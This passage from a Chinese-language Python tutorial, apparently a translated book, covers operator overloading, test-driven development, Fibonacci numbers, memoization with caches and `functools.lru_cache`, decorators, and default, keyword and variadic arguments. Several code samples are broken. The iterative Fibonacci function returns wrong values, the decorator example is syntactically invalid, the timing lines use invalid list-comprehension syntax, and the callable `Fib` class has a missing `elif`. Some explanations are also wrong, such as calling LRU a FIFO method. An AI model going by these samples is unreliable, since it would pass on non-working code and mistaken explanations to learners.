你可以看到结果更好了。实际上，当我们使用内置函数 `format()` 或 `str()` 时，也会使用此方法。

```python
>>> str(p1)
'(2,3)'

>>> format(p1)
'(2,3)'
```

因此，当你执行 `format(p1)` 或 `str(p1)` 时，程序实际上在执行 `p1.__str__()`。这就是特殊函数的由来。话虽如此，让我们回到运算符重载。

### 在Python中重载运算符‘+’

要能够重载符号‘+’，你需要在类中实现`__add__()`函数。你可以在这个函数中做任何你想做的事情。不过，返回坐标和点对象才是合理的做法。

```python
class Point:
    def __init__(self, x = 0, y = 0):
        self.x = x
        self.y = y

    def __str__(self):
        return "({0},{1})".format(self.x,self.y)

    def __add__(self,other):
        x = self.x + other.x
        y = self.y + other.y
        return Point(x,y)
```

现在，再试一次加法运算。

```python
>>> p1 = Point(2,3)
>>> p2 = Point(-1,2)
>>> print(p1 + p2)
(1,5)
```

发生的情况是，当我们执行`p1+p2`时，Python程序会调用`p1.__add__(p2)`。这反过来就是`Point.__add__(p1,p2)`。同样地，你也可以重载其他运算符。需要实现的特殊函数如下表所示：

| 运算符 | 表达式 | 内部调用 |
| --- | --- | --- |
| 加法 | p1 + p2 | p1.__add__(p2) |
| 减法 | p1 - p2 | p1.__sub__(p2) |
| 乘法 | p1 * p2 | p1.__mul__(p2) |
| 幂运算 | p1 ** p2 | p1.__pow__(p2) |
| 除法 | p1 / p2 | p1.__truediv__(p2) |
| 整除 | p1 // p2 | p1.__floordiv__(p2) |
| 取余（模运算） | p1 % p2 | p1.__mod__(p2) |
| 按位左移 | p1 << p2 | p1.__lshift__(p2) |
| 按位右移 | p1 >> p2 | p1.__rshift__(p2) |
| 按位与 | p1 & p2 | p1.__and__(p2) |
| 按位或 | p1 \| p2 | p1.__or__(p2) |
| 按位异或 | p1 ^ p2 | p1.__xor__(p2) |
| 按位取反 | ~ p1 | p1.__invert__() |

### 重载Python的比较运算符

在Python中，运算符重载不仅限于算术运算符。你也可以重载比较运算符。例如，假设你想在`Point`类中包含小于号`<`。我们可以比较点到原点的距离大小，并为此目的返回结果。看看如何实现这一点：

```python
class Point:
    def __init__(self, x = 0, y = 0):
        self.x = x
        self.y = y

    def __str__(self):
        return "({0},{1})".format(self.x,self.y)

    def __lt__(self,other):
        self_mag = (self.x ** 2) + (self.y ** 2)
        other_mag = (other.x ** 2) + (other.y ** 2)
        return self_mag < other_mag
```

你可以尝试以下示例，看看它在shell中如何运行：

```python
>>> Point(1,1) < Point(-2,-3)
True

>>> Point(1,1) < Point(0.5,-0.2)
False

>>> Point(1,1) < Point(1,1)
False
```

同样地，下表展示了为了重载其他比较运算符，我们需要实现的各种特殊函数：

| 运算符 | 表达式 | 内部调用 |
| :--- | :--- | :--- |
| 小于 | p1 < p2 | p1.__lt__(p2) |
| 小于或等于 | p1 <= p2 | p1.__le__(p2) |
| 等于 | p1 == p2 | p1.__eq__(p2) |
| 不等于 | p1 != p2 | p1.__ne__(p2) |
| 大于 | p1 > p2 | p1.__gt__(p2) |
| 大于或等于 | p1 >= p2 | p1.__ge__(p2) |

## 休息一下：调试与测试

在我们继续之前，你怎么知道你的程序正在正常工作？你真的能指望自己每次都能写出无懈可击的代码吗？这极不可能。毫无疑问，在Python中编写代码大多数时候很简单，但你的代码有可能存在错误。

对于任何程序员来说，调试都是编程工作中不可或缺的一部分。开始调试的唯一方法显然是运行你的程序。但仅仅运行程序可能还不够。例如，如果你编写了一个以某种方式处理文件的程序，你需要一些文件来运行它。相反，如果你编写了一个使用算术函数的实用库，你需要为这些函数提供参数才能让代码运行起来。

程序员每次都在做这类事情。在编译型语言中，循环是“编辑-编译-运行”*或类似的过程*反复进行。在某些情况下，甚至创建程序来运行都可能是个问题，因此你作为程序员必须在编辑和编译之间切换。Python中没有编译步骤。因此，你只需编辑和运行。运行程序就是测试的全部意义所在。

### 先运行，后编码

变化和灵活性对于你的代码至少能存活到开发过程结束至关重要。为此，你确实需要为程序的不同部分设置测试——通常称为“单元测试”。这也是设计应用程序中非常务实和实际的一部分。与其试图“写一点代码，测试一点”，极限编程人群给我们带来了一个非常有用但相当反直觉的格言：“测试一点，写一点代码”。

换句话说，你先测试，然后再编码——这也被称为测试驱动编程。这种方法起初可能看起来不熟悉，但它有许多优点，随着时间的推移，你会逐渐喜欢上它。最终，一旦你使用了一段时间测试驱动编程，不先测试就写代码可能会显得本末倒置。

### 精确的需求规格说明

在开发软件时，你首先需要知道软件需要解决什么问题以及需要达到什么目标。你可以编写一份需求规格说明来阐明程序的目标——这份文档也可以是一些描述程序应满足需求的快速笔记。这样，就更容易检查需求是否得到满足。

然而，大多数程序员不喜欢写报告，通常更喜欢让计算机尽可能多地完成工作。好消息是，你可以指定你的需求，并使用解释器来检查它们是否得到满足。

这里的想法是先编写一个测试程序，然后编写一个通过测试的程序。这个测试程序就是需求规格说明，它帮助你在开发程序时坚持需求。如果你感到困惑，我们将看一个简单的例子。

假设你需要编写一个模块，其中包含一个函数，该函数将计算矩形的面积——即已知宽度和高度。在开始编码之前，你首先编写一个单元测试，其中包含几个你已经知道答案的例子。测试程序可能看起来像下面这样（清单1）。

```python
# THE SIMPLE TEST PROGRAM
from area import rect_area

height = 3
width = 4
correct_answer = 12
answer = rect_area(height, width)
if answer == correct_answer:
    print('Test passed ')
else:
    print('Test failed ')
```

上面的例子显示，我们调用了尚未编写的`rect_area`函数，传入高度和宽度（分别为3和4），然后将结果与正确答案（本例中为12）进行比较。如果之后，你粗心地实现了`rect_area`（在文件`area.py`中），如下所示，并尝试运行测试程序，你将收到错误消息。

```python
def rect_area(height, width):
    return height * height # This is wrong ...
```

然后你可以尝试检查代码，看看问题出在哪里，并将返回的表达式替换为`height * width`。

当你在编写代码之前编写测试时，你这样做不仅仅是为了发现错误；你这样做是为了首先检查你的代码是否在工作。

因此，关于你的代码的问题是，在你测试代码之前，它真的做了任何事情吗？你可以这样看待：一个功能在你找到它的测试之前，它实际上并不存在。这意味着你可以清楚地证明它存在并且正在做它应该做的事情。这在你最初开发程序时，以及在你后来扩展和维护代码时，对你绝对是有用的。

### 为变化做计划

除了在编写程序时非常有帮助外，自动化测试还可以帮助你在进行更改时避免累积错误。随着程序规模的增长，这一点尤为重要。你必须准备好更改你的代码，而不是固守已有的东西：变化伴随着风险。

更改一段代码通常意味着你引入了一个或多个意外的错误。如果你确保你的程序设计得当，具有正确的抽象和封装，那么更改的影响应该是局部的，只影响代码的一小部分。因此，如果你发现了错误，调试就会变得更容易。

### 测试的“1-2-3”步骤

在深入探讨编写测试的细节之前，我们先来看一下本质上属于测试驱动的开发流程分解（至少是其中一种版本）。

-   ✓ 明确你需要的新功能。尝试先为其编写文档，然后编写相应的测试。

-   ✓ 为该功能编写骨架代码，确保你的程序能够运行且没有语法错误之类的问题，但（注意）让你的测试仍然失败。你必须看到测试失败，才能确信它确实*可能*失败。如果你发现测试有问题，并且它总是成功，无论怎样都失败不了，那仅仅意味着你没有测试到任何东西。

-   ✓ 为骨架代码编写一个桩代码来满足测试。这不需要精确实现功能，只需让测试通过即可。这反过来又允许你在开发过程中（除了第一次尝试运行测试时）始终保持所有测试通过，即使你是在首次实现功能。

-   ✓ 重构或重写代码，使其真正执行应有的功能，同时努力确保你的测试仍然通过。

当你离开代码时，需要保持其良好状态；不要留下测试失败的代码，或者在这种情况下，不要留下桩代码仍然存在而测试却通过的代码。

另外；在我们继续之前，需要了解一个重要的东西，称为斐波那契数列，因为你迟早会在本Python系列中遇到它——从下一章开始。我们将简要介绍它，以便你能毫无障碍地继续学习。

## 斐波那契数列

斐波那契数列是一组以0或1开头，后跟1的数字，并根据每个数字（称为斐波那契数）等于前两个数字之和的规则继续。如果斐波那契数列用F(n)表示，其中n代表第一项，那么当n=0时，前两项通常定义为0和1，得到以下等式：
F (0) = 0, 1, 1, 2, 3, 5, 8, 13, 21, 34...
你会发现有些文本习惯使用n=1，此时前两项定义为1和1——这是默认的，因此：
F (1) = 1, 1, 2, 3, 5, 8, 13, 21, 34...

斐波那契数列得名于斐波那契或莱昂纳多·皮萨诺，他是一位生活在1170年至1250年之间的意大利数学家。斐波那契使用这个数学级数来描述一个关于两对繁殖兔子的问题。

因此他会问：“如果从一对兔子开始，每个月每对兔子都会生一对新的兔子，而新兔子从第二个月开始具有生育能力，那么每年会产生多少对兔子？”结果的数值表达如下：1, 1, 2, 3, 5, 8, 13, 21, 34...

物理学家和生物学家通常对斐波那契数感兴趣，因为它们存在于不同的现象和自然物体中。例如，树叶和树木的分枝模式，以及树莓种子在树莓中的分布，都基于斐波那契数。

最后，你应该知道斐波那契数列与[黄金比例](https://en.wikipedia.org/wiki/Golden_ratio)有关。这是一个大约1:1.6的比例，在自然界中大量出现，并在人类活动的许多领域中具有实用性。黄金比例和斐波那契数列被用于指导建筑设计以及用户界面和网站的设计——以及其他许多方面。

*点击[此处](https://itunes.apple.com/us/audiobook/python-programming-your-intermediate-guide-to-learn/id1448033975)下载本书的有声书版本*

### Python中的记忆化

记忆化是缓存函数调用结果的方法。当你记忆化一个函数时，你只能通过查找第一次使用这些参数调用函数时获得的结果来评估它。此操作的日志存储在记忆化缓存中。查找可能失败——意味着函数未能使用这些参数调用。只有在这种情况下，才需要运行函数本身。

除非函数是确定性的，或者你可以简单地接受结果为过时的，否则记忆化没有意义。然而，如果函数计算代价高昂，记忆化将带来巨大的速度提升。本质上，你是用函数的计算复杂度换取查找的复杂度。

让我们稍微回顾一下。

作为程序员，你知道递归为你提供了一种将大问题分解为更小、可管理部分的便捷方式。尝试考虑斐波那契和的迭代与递归解决方案（尽管我们稍后会更多地讨论斐波那契）。

```python
# iterative
def fib_iterative(n):
    if (n == 0):
        return 0
    elif (n == 1):
        return 1
    elif (n > 1):
        fn = 0
        fn1 = 1
        fn2 = 2
        for i in range(3, n):
            fn = fn1+fn2
            fn1 = fn2
            fn2 = fn
        return fn
# recursive
def fib(n):
    if n == 0: return 0
    if n == 1: return 1
    else: return fib(n-1) + fib(n-2)
```

对于分支问题，递归解决方案在阅读和编写时通常更简单。你会注意到，树遍历、数学级数和图遍历通常——直观地——更多地使用递归来处理。尽管它提供了很多便利，但递归在分支问题上的计算时间成本随着‘n’值的增大呈指数级增长。

看看下面的fib (6)调用栈：



在每个连续的树级别，你执行的操作数量翻倍，这给你带来了时间复杂度：O(2^n)

如果你仔细观察这棵树，你会很容易注意到工作的重复。虽然fib(2)计算了五次，fib(3)计算了三次，等等。尽管这对于小的‘n’值不是问题，但考虑一下计算fib(1000)时可能的重复工作量。当你修改了递归解决方案后，你可以尝试运行相同的问题——比如fib(20)——对于两个版本，看看完成时间的显著差异。

有一种实用的方法可以防止重复工作并保持你优雅的解决方案。

### 斐波那契平方

通常的记忆化示例是斐波那契数列，其中序列中的每一项都是前两项的总和。看看下面的Python实现：

```python
def fib(n):
    if n <= 2:
        return 1
    else:
        return fib(n - 2) + fib(n - 1)
```

朴素的递归方法有一个问题，即调用总数随着n呈指数级增长——这对于大的n来说代价相当高昂：

```
In [1]: [_ = fib(i) for i in range(1, 35)]
CPU times: user 30.6 s, sys: 395 ms, total: 31 s
Wall time: 31.9 s
```

要计算fib (10)，你需要计算fib(8)和fib(9)。然而，我们在计算后者时已经计算了前者。这里的诀窍是记住这些结果。这就是我们所说的记忆化。

本节有一个助记方法，你可以通过导入‘functools’并在函数上添加装饰器‘@functools.lru_cache’来在最新版本的Python中记忆化一个函数。我们将在本节末尾讨论这个。

如果你想更多地了解记忆化在Python中的工作方式，以及为什么手动操作会有丑陋的妥协（语法上），以及装饰器是什么，你可以继续阅读手动记忆化方法。

### 手动记忆化（手动实现记忆化）

第一种记忆化方法涉及利用一个著名的Python特性：如下向函数添加状态：

```python
def fib_default_memoized(n, cache={}):
    if n in cache:
        ans = cache[n]
    elif n <= 2:
        ans = 1
        cache[n] = ans
    else:
        ans = fib_default_memoized(n - 2) + fib_default_memoized(n - 1)
        cache[n] = ans

    return ans
```

基本逻辑应该非常明显：‘cache’是之前调用‘fib_default_memoized()’的结果字典。‘n’参数是键；第n个斐波那契数是值。如果是这样，你就完成了；但如果不是，你必须像原生递归版本那样计算它，并在返回结果之前将其保存在缓存中。

这里的关键是‘cache’是函数的关键字参数。Python通常只在导入函数时评估关键字参数一次。这仅仅意味着如果关键字参数是可变的——注意字典是可变的——那么它就只初始化一次。这通常是微妙错误的根源，但在这种情况下，你利用了可变关键字参数的特性。所做的更改——即填充缓存——不会被‘cache={}’清除

### 手动记忆化：对象方式

一些Python程序员主张修改形式函数参数并非良策。对于其他人——尤其是使用Java的程序员——他们的论点是，具有状态的函数应当被转换为对象。下面来看看这种方式可能的实现：

```python
class Fib():
    cache = {}

    def __call__(self, n):
        if n in self.cache:
            ans = self.cache[n]
        if n <= 2:
            ans = 1
            self.cache[n] = ans
        else:
            ans = self(n - 2) + self(n - 1)
            self.cache[n] = ans

        return ans
```

在这种情况下，`__call__` 魔术方法被用来使‘Fib’实例在语法上表现得像函数。‘Cache’被所有‘Fib’实例共享，因为它是一个类属性。当你在计算斐波那契数时，你会发现这非常理想。然而，如果对象调用的是在构造函数中明确定义的服务器，并且结果依赖于服务器，那这就不是一件好事了。那么，你会通过将其直接放入‘__init__’中，将其移入对象属性。尽管如此，你仍然获得了记忆化带来的速度提升：

```python
In [3]: f = Fib()

In [4]: %time [_ = f(i) for i in range(1, 35)]
CPU times: user 116 µs, sys: 0 ns, total: 116 µs
Wall time: 120 µs
```

嗯，在2012年，Jack Diederich做了一个著名的PyCon演讲，名为‘停止编写类’（务必观看完整）。如果我要给你一个片段或简短版本，我会说，一个只有两个方法且其中一个为`__init__`的Python类，其代码气味很糟糕。Fib类虽然不完全符合这种情况，但同样存在问题。此外，与那种取巧的默认参数方法相比，它大约慢了四倍，这主要是由于对象查找的开销。嗯，这确实很糟糕。

### 手动记忆化：使用‘全局变量’

你可以通过使用‘global’来规避默认参数的取巧修改和过度工程化的、类似Java的对象方式。‘Global’确实名声不佳，但如果你问我，它已经足够好了（也许因为[Peter Norvig也认为可以接受](https://example.com)）。

我个人更倾向于‘global here’声明，它比类定义所需的32个‘self’实例在视觉上更简洁一些。我们的Fib类并不完全包含32个‘self’实例，但你可以争辩说，在全局变量版本中可读性更好。

```python
global_cache = {}

def fib_global_memoized(n):
    global global_cache
    if n in global_cache:
        ans = global_cache[n]
    elif n <= 2:
        ans = 1
        global_cache[n] = ans
    else:
        ans = fib_global_memoized(n - 2) + fib_global_memoized(n - 1)
        global_cache[n] = ans

    return ans
```

这与默认的取巧参数方法并无不同，但在这里，我们将其设为全局变量，以确保‘cache’在函数调用之间保持存在。

对象、默认参数和全局缓存方法都是完全令人满意的。尽管如此，好消息是，在Python中，特别是最新版本，`lru_cache`装饰器已被引入来为我们解决这个问题。

### 装饰器

装饰器本质上是一个高阶函数。这意味着它接受一个函数作为参数并返回另一个函数。当涉及到装饰器时，返回的函数通常只是原始函数，但增加了一些额外的功能。如果我要给出最基本的情况，我会说增加的功能是我所说的纯粹的副作用，例如日志记录。例如，我们可以创建一个装饰器，它能够在每次被装饰的函数被调用时打印一些文本，如下所示：

```python
def output_decorator(f):
    def f_(f)
        f()
        print('Ran f..')
            return f_
```

你可以用装饰后的版本来替换f。只需执行‘F=output_decorator(f)’。现在调用f()，你将得到装饰后的版本，即原始函数以及打印输出。Python通过一些语法糖使这变得更加简单，如下所示：

```python
@output_decorator
def f()
    # ... 定义 f ...
```

如果这没有让你理解很多，你可以尝试理解装饰器，Simeon Franklin的[教程](https://www.simeonfranklin.com/)将带你从一等函数的基础知识一直到装饰原则，仅需十二个步骤。

你会同意我们的output_decorator的副作用并不十分令人振奋。然而，你可以超越纯粹的副作用，增强函数本身的操作。例如，装饰器可以包含记忆化所需的精确缓存类型，然后在结果已在缓存中时拦截对被装饰函数的调用。

然而，如果你尝试编写自己的记忆化装饰器，你可能会很快陷入参数传递的细节中，并在弄清楚Python的内省时真正卡住。内省是在运行时确定对象类型的能力——它是Python语言的众多优势之一。

换句话说，天真地装饰函数是破坏代码所依赖（以及解释器）来了解函数的功能的好方法。你可以查看‘decorator模块’。如果你愿意使用非标准库代码，‘wrapt’和‘decorator’模块可以为你解决这些内省问题。

幸运的是，装饰器的繁琐细节已经为特定的记忆化案例解决了；解决方案也在标准库中。

### functools.lru_cache

如果你运行的是最新版本的Python（或至少3.2），要记忆化一个函数，你只需要应用装饰器：`functools.lru_cache`，如下所示：

```python
import functools

@functools.lru_cache()
def fib_lru_cache(n):
    if n < 2:
        return n
    else:
        return fib_lru_cache(n - 2) + fib_lru_cache(n - 1)
```

如你所见，这只是一个带有装饰器和额外‘import’的原始函数。还有什么比这更简单的呢？应用这个装饰器实际上提供了六个数量级的速度提升，这是预期的。

```python
In [5]: %time [fib.fib_lru_cache(i) for i in range(1, 35)]
CPU times: user 57 µs, sys: 1 µs, total: 58 µs
Wall time: 61 µs
```

如果你好奇，‘lru_cache’中的LRU代表最近最少使用。这是一种管理缓存大小的FIFO方法，对于比fib()更复杂的函数，缓存可能会变得非常大。

然而，从根本上说，标准库装饰器用于记忆化的方法与上面讨论的非常相似。实际上，如果你发现自己被困在Python 2.7上，或者只是想快速查看代码，我们有这个装饰器的[向后移植版本](https://github.com/pytoolz/cytoolz)。

Lru_cache肯定也有妥协和开销（考虑到fib_lru_cache的速度只有你最初记忆化尝试的一半）。尽管如此，其简单的装饰器接口使其非常易于使用，以至于当你在应用程序中找到适合记忆化的良好位置时，它就像拨动开关一样简单。

点击[此处](https://itunes.apple.com/us/audiobook/python-programming-your-intermediate-guide-to-learn/id1448033975)下载本书的有声书版本

## Python中的参数

你可以在Python中定义接受可变数量参数的函数。你可以使用关键字参数、任意参数和默认参数来定义这些函数。在本节中，我们将深入探讨这一点。

在上一版（初学者书籍）中，我们涵盖了很多关于用户定义函数的内容。特别是，我们学习了定义函数和调用它们的所有知识。否则，函数调用会导致错误。看下面的例子：

```python
def greet(name,msg):
    """This function greets to
    the person with the provided message"""
    print("Hello",name + ',' + msg)

greet("Monica","Good morning!")
```

输出如下：
Hello Monica, Good morning!

这里的‘greet()’函数有两个参数。
由于你调用此函数时包含了两个参数，它将顺利运行，你不会收到任何错误。
如果你使用不同数量的参数，解释器只会报错。下面是一个包含单个参数和无参数的函数调用及其各自的错误消息。

### 可变函数参数

到目前为止，函数包含的参数数量是固定的。Python 提供了其他定义函数的方式，可以接受可变数量的参数。下面描述了三种不同类型：

#### 1：Python 默认参数

在 Python 中，函数参数可以包含默认值。我们可以使用赋值运算符 `=` 为参数提供默认值。请看下面的示例：

```python
def greet(name, msg = "Good morning!"):
    """
    This function greets to
    the person with the
    provided message.

    If message is not provided,
    it defaults to "Good
    morning!"
    """

    print("Hello",name + ',' + msg)

greet("Kate")
greet("Bruce","How do you do?")
```

此函数中的参数 `name` 不包含默认值，在调用时是必需的。相反，`msg` 参数包含默认值 `'Good morning!'`。因此，在调用时它是可选的。如果提供了值，它将覆盖默认值。

在函数中，任意数量的参数都可以包含默认值，但当你有一个默认参数时，其右侧的所有参数也必须具有默认值。这意味着非默认参数不能跟在默认参数之后。例如，如果我们把上面的函数头定义为：

```python
def greet(msg = "Good morning!", name):
```

在这种情况下，你会收到以下错误：

```
SyntaxError: non-default argument follows default argument
```

#### 2：Python 关键字参数

当你使用一些值调用函数时，这些值会根据它们的位置分配给参数。例如，在上面的 `greet()` 函数中，`"greet(Bruce, How do you do?)"` 中的值 `'Bruce'` 被分配给 `name` 参数，同样 `"How do you do?"` 被分配给 `msg`。

Python 允许使用关键字参数来调用函数。当你以这种方式调用函数时，参数的位置或顺序可以改变——以下对上述函数的调用是有效的，并且产生相同的结果。

```python
>>> # 2 keyword arguments
>>> greet(name = "Bruce",msg = "How do you do?")

>>> # 2 keyword arguments (out of order)
>>> greet(msg = "How do you do?",name = "Bruce")

>>> # 1 positional, 1 keyword argument
>>> greet("Bruce",msg = "How do you do?")
```

你可以看到，在函数调用过程中，我们可以将关键字参数与位置参数结合使用。然而，我们需要考虑关键字参数必须与位置参数一起使用。

当你在关键字参数之后有位置参数时，它会产生错误——例如，看下面的函数调用：

```python
greet(name="Bruce","How do you do?")
```

这会导致以下错误：

```
SyntaxError: non-keyword arg after keyword arg
```

#### 3：Python 中的任意参数

有时，你事先不知道要传递给函数的参数数量。Python 允许你使用具有任意参数数量的函数调用来处理这种情况。

在函数定义中，你可以在参数名称前使用星号 `*` 来表示这种类型的参数。请看下面的例子：

```python
def greet(*names):
    """This function greets all
    the person in the names tuple."""

    # names is a tuple with arguments
    for name in names:
        print("Hello",name)

greet("Monica","Luke","Steve","John")
```

输出如下：

```
Hello Monica
Hello Luke
Hello Steve
Hello John
```

在这里，我们使用多个参数调用了函数。这些参数在传入函数之前就被包装成一个元组。在函数内部，使用 `for` 循环来恢复所有参数。

正如你到目前为止所看到的，Python 函数具有一些额外的功能，这些功能必将使 Python 程序员的生活变得更加简单。虽然其中一些功能与其他编程语言中包含的功能相同，但许多功能仅在 Python 中可用。这些额外的功能实际上可以使函数的目的更加明确。例如，它们可以消除噪音，并为调用者的意图带来一些清晰度。有了这些，那些往往难以发现的微妙错误也会减少。

在下一节中，我们将讨论 Python 函数参数的最佳实践。

### Python 函数参数的最佳实践

在处理 Python 中的函数参数时，你应该牢记以下最佳实践：

#### 1：使用可变位置参数以减少视觉噪音

根据参数的常规名称 `*args`，可选的位置参数也被称为“星号参数”。当你接受这些可选的位置参数时，你可以使函数调用更清晰，并消除“视觉噪音”。

例如，假设你想记录一些调试信息。你需要一个接受消息和一组值的函数。

```python
def log(message, values):
    if not values:
        print(message)
    else:
        values_str = ', '.join(str(x) for x in values)
        print('%s: %s' % (message, values_str))

log('My numbers are', [1, 2])
log('Hi there', [])
```

```
>>>
My numbers are: 1, 2
Hi there
```

当你必须传递一个空列表而没有任何值来记录时，这很麻烦且嘈杂。完全省略第二个参数会更好。在 Python 中，你可以通过简单地在最后一个位置参数前加上 `*` 来实现这一点。第一个日志消息参数是必需的——尽管后续的任意数量的位置参数完全是可选的。除了调用者之外，函数体不需要改变。

```python
def log(message, *values):  # The only difference
    if not values:
        print(message)
    else:
        values_str = ', '.join(str(x) for x in values)
        print('%s: %s' % (message, values_str))

log('My numbers are', 1, 2)
log('Hi there')  # Much better
```

```
>>>
My numbers are: 1, 2
Hi there
```

如果你有一个现成的列表，并且可能希望调用像 `log` 这样的可变参数函数，你可以简单地使用 `*` 运算符来实现。这将告诉 Python 将序列中的项目作为位置参数传递。

```python
favorites = [7, 33, 99]
log('Favorite colors', *favorites)
```

```
>>>
Favorite colors: 7, 33, 99
```

在处理可变数量的位置参数时，我们有两个问题。首先，可变参数在传递给你的函数之前会被转换为元组。这意味着当你的函数调用者在生成器中使用星号运算符时，它会被迭代到耗尽。生成的元组将包含生成器中的每个值，这可能会占用大量内存，从而导致你的程序崩溃。

```python
def my_generator():
    for i in range(10):
        yield i

def my_func(*args):
    print(args)

it = my_generator()
my_func(*it)
```

```
>>>
(0, 1, 2, 3, 4, 5, 6, 7, 8, 9)
```

接受 `*args` 的函数通常最适合那些参数列表中输入数量合理较小的情况。这对于传递多个字面量或变量名的函数调用来说是完美的。主要是为了程序员的方便和代码的可读性。

`*args` 的另一个问题是，将来你不能在不迁移每个调用者的情况下向函数添加新的位置参数。当你尝试在参数列表之前添加位置参数时，如果未正确更新，当前的调用者将会（微妙地）中断。

```python
def log(sequence, message, *values):
    if not values:
        print('%s: %s' % (sequence, message))
    else:
        values_str = ', '.join(str(x) for x in values)
        print('%s: %s: %s' % (sequence, message, values_str))

log(1, 'Favorites', 7, 33)    # New usage is OK
log('Favorite numbers', 7, 33) # Old usage breaks
```

```
>>>
1: Favorites: 7, 33
Favorite numbers: 7: 33
```

在这种情况下，下一次对 `log` 的调用使用了 `7` 作为参数 `message`，因为没有提供参数 `sequence`——因此，这就是问题所在。这类错误通常很难追踪，因为代码仍在运行。

并且在此过程中不会引发任何异常。如果你想完全避免这种可能性，可以使用仅关键字参数——当你需要扩展一个接受 `*args` 的函数时，可以使用它们。

尽管其中一些要点可能显得过于强调，但请记住以下事项：

- 函数通过在 `def` 语句中使用 `*args` 来接受可变数量的位置参数。
- 序列中的元素可以使用 `*` 运算符作为函数的位置参数。
- 当你将 `*` 运算符与生成器一起使用时，可能会耗尽程序的内存并导致最终崩溃。
- 有些编码错误很难发现；在大多数情况下，这些错误的引入发生在你向函数添加新的接受 `*args` 的位置参数时。

#### 2：使用关键字参数提供可选行为

与当前的编程语言一样，调用 Python 函数时可以按位置传递参数。

```python
def remainder(number, divisor):
    return number % divisor

assert remainder(20, 7) == 6
```

你也可以通过关键字将整个位置参数列表传递给函数；在这种情况下，我们在函数调用括号内使用参数名称进行赋值。关键字参数实际上可以按任意顺序传递，只要所需的位置参数被正确指定。你可以组合和匹配位置参数和关键字参数。以下调用是等效的：

```python
remainder(20, 7)
remainder(20, divisor=7)
remainder(number=20, divisor=7)
remainder(divisor=7, number=20)
```

你需要在关键字参数之前指定位置参数。

```python
remainder(number=20, 7)
>>>
SyntaxError: non-keyword arg after keyword arg
```

每个参数只能指定一次。

```python
remainder(20, number=7)
>>>
TypeError: remainder() got multiple values for argument 'number'
```

#### 3：关键字参数的灵活性带来三大好处

首先，关键字参数为函数调用提供了更高的清晰度，这对代码的新读者有益。对于 `remainder(20,7)` 这样的调用，如果不查看 `remainder` 方法的实现，很难明确哪个参数代表数字，哪个代表除数。而在关键字参数调用中，`divisor=7` 和 `number=20` 几乎立即就能清楚地表明每个参数的用途。

其次，关键字参数有一个特殊的影响：默认情况下，它们可以在函数定义中指定值。这使得函数在需要时可以提供额外的功能，但大多数时候也允许你接受默认行为。这在消除重复代码和减少冗余方面非常方便。

例如，假设你想计算某种液体流入一个大桶的速率。如果这个大桶也放在秤上，你可以使用两个不同时间点的重量测量差值来了解流速。

```python
def flow_rate(weight_diff, time_diff):
    return weight_diff / time_diff

weight_diff = 0.5
time_diff = 3
flow = flow_rate(weight_diff, time_diff)
print('%.3f kg per second' % flow)

>>>
0.167 kg per second
```

重要的是要知道，在典型情况下，流速是以千克每秒为单位的。在其他时候，使用最终传感器测量值来估算更大的时间尺度（如小时或天）会很有用。你也可以为时间段添加一个缩放因子参数，以便在同一函数中提供这种行为。

```python
def flow_rate(weight_diff, time_diff, period):
    return (weight_diff / time_diff) * period
```

问题是，现在每次调用函数时都必须指定 `period` 参数；这包括流速为每秒的常见情况，其中 `period` 为 1。

```python
flow_per_second = flow_rate(weight_diff, time_diff, 1)
```

为了减少这种冗余，你可以为 `period` 参数提供一个默认值。

```python
def flow_rate(weight_diff, time_diff, period=1):
    return (weight_diff / time_diff) * period
```

#### 4：参数 `period` 现在是可选的

```python
flow_per_second = flow_rate(weight_diff, time_diff)
flow_per_hour = flow_rate(weight_diff, time_diff,
    period=3600)
```

这对于简单的默认值非常有效，但你需要注意，对于复杂的默认值，情况会变得有点棘手。请看下一个子主题，讨论使用 `None` 和文档字符串来指定动态默认参数。

你需要使用关键字参数的另一个原因是，它们提供了一种扩展函数参数的好方法，同时保持与现有调用者的向后兼容性。这允许你提供额外的功能，而不必移动大量代码，从而减少代码出错的可能性。

例如，假设你需要扩展上面的 `flow_rate` 函数，以计算以千克以外的重量单位表示的流速。你可以通过添加新的可选参数来实现这一点，这些参数提供到你选择的测量单位的转换率。

```python
def flow_rate(weight_diff, time_diff,
    period=1, units_per_kg=1):
    return ((weight_diff * units_per_kg) / time_diff) * period
```

`units_per_kg` 的默认参数值为 1，使得返回的重量单位保持为千克。这意味着现有的调用者不会看到行为变化。新的 `flow_rate` 调用者可以指定新的关键字参数来观察新的行为。

```python
pounds_per_hour = flow_rate(weight_diff, time_diff,
                           period=3600, units_per_kg=2.2)
```

这种方法的唯一问题是，像 `units_per_kg` 和 `period` 这样的可选关键字参数可能会被误认为是位置参数。

```python
pounds_per_hour = flow_rate(weight_diff, time_diff, 3600,
                           2.2)
```

如果你仔细想想，按位置提供可选参数可能会非常令人困惑，因为不清楚 3600 和 2.2 的值对应什么。在这种情况下，最佳实践是始终使用关键字名称指定可选参数，而不是将它们作为位置参数传递。

你需要记住，使用这种可选关键字参数的向后兼容性对于接受 `*args` 的函数很重要。你可以回顾讨论使用可变位置参数减少视觉冗余的子主题。同样，你会发现更好的实践是使用仅关键字参数——关于这一点，请阅读后续讨论使用基于关键字的参数强制清晰性的子主题。

### 关于参数你需要记住的事项

在使用时，请记住以下事项：

- ✓ 你可以通过关键字或位置指定函数参数。
- ✓ 关键字可以澄清每个参数的目的，否则仅使用位置参数时可能会造成混淆。
- ✓ 包含默认值的关键字参数简化了向函数添加新行为的过程，特别是当函数包含现有调用者时。
- ✓ 可选关键字参数必须通过关键字传递，而不是位置传递，始终如此。

### 使用 `None` 和文档字符串指定动态默认参数

有时，你必须使用非静态类型作为关键字参数的默认值。例如，假设你需要打印带有记录事件时间的日志消息。在默认情况下，你希望消息包含函数被调用的时间。你可能还想尝试下面的方法，假设默认参数在每次调用函数时都会重新求值。

```python
def log(message, when=datetime.now()):
    print('%s: %s' % (when, message))

log('Hi there!')
sleep(0.1)
log('Hi again!')

>>>
2014-11-15 21:10:10.371432: Hi there!
2014-11-15 21:10:10.371432: Hi again!
```

时间戳相同的原因很简单，`datetime.now` 只执行一次——即在函数定义时。默认参数值仅在每次模块加载时求值一次，这通常发生在程序启动时。一旦包含此代码的模块被加载，默认参数 `datetime.now` 就永远不会再次求值。

在 Python 中，实现预期结果的惯例是提供一个默认的 `None` 值，并在文档字符串中记录实际行为。在你的代码看到 `None` 参数值的情况下，你然后适当地分配默认值。

def log(message, when=None):
    """记录带时间戳的消息。

    Args:
        message: 要打印的消息。
        when: 消息发生的时间。
              默认为当前时间。
    """
    when = datetime.now() if when is None else when
    print('%s: %s' % (when, message))

此时，时间戳将不会相同。

```
log('Hi there!')
